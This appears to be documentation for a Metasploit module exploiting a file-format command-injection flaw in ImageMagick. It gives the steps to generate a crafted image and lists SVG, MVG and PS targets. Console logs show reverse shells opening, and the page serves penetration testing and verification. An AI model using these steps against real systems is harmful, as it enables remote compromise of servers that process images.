 ## Vulnerable Application

  ImageMagick

## Verification Steps

  Example steps in this format:

  1. Install the ImageMagick
  2. Start msfconsole
  3. Do: ```use exploits/unix/fileformat/imagemagick_delegate```
  4. Do: ```run```
  5. convert msf.png msf.jpg

## Options

### USE_POPEN

  When the default option `true` is used, targets 0 (SVG file) and 1 (MVG file) are valid
  When the option is set to `false`, target 2 (PS file) is valid

## Scenarios

## popen=true
  ```
  msf exploit(imagemagick_delegate) > set target 0
  msf exploit(imagemagick_delegate) > run

  [*] Started reverse TCP handler on 1.1.1.1:4444
  [+] msf.png stored at /Users/dmohanty/.msf4/local/msf.png
  [*] Command shell session 1 opened (1.1.1.11:4444 -> 1.1.1.1:57212) at 2016-10-28 12:47:06 -0500
  ```

  ```
  msf exploit(imagemagick_delegate) > set target 1
  msf exploit(imagemagick_delegate) > run

  [*] Started reverse TCP handler on 10.6.0.186:4444
  [+] msf.png stored at /Users/dmohanty/.msf4/local/msf.png
  [*] Command shell session 2 opened (1.1.1.1:4444 -> 1.1.1.1:64308) at 2016-10-28 15:48:40 -0500
  ```

## popen=false
  ```
  msf exploit(imagemagick_delegate) > set target 2
  target => 2
  msf exploit(imagemagick_delegate) > set USE_POPEN false
  USE_POPEN => false
  msf exploit(imagemagick_delegate) > run

  [*] Started reverse TCP handler on 1.1.1.1:4444
  [+] msf.png stored at /Users/dmohanty/.msf4/local/msf.png
  [*] Command shell session 5 opened (1.1.1.1:4444 -> 1.1.1.1:64772) at 2016-10-28 15:58:03 -0500
  ```
